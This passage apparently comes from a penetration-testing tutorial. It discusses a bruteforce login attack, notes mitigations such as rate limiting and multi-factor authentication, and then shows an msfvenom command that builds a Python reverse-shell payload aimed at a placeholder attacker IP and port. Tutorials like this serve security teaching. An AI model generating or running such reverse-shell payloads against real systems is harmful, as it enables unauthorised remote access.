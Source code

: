 ![](<../.gitbook/assets/image (5) (1) (1) (1).png>)

Now the bruteforce attack only has to guess the password!

{% hint style="info" %}
Although we have technically improved the attack speed, we are still (at the end of the day) bruteforcing – which is practically impossible nowadays. Such attacks can be mitigated easily by limiting the number of attempts within a given period of time, as well as enforcing multi-factor authentications.
{% endhint %}

### 1.3.3. Reverse Shell

The Metasploit also comes with tools to create vulnerable executable scripts/files using `msfvenom` module. For our instance, we will create a reverse shell using python code:

```
msfvenom -p python/shell_reverse_tcp LHOST=[attacker IP address] LPORT=[attacker listening port]
```

![](<../.gitbook/assets/image (3) (1) (1).png>)
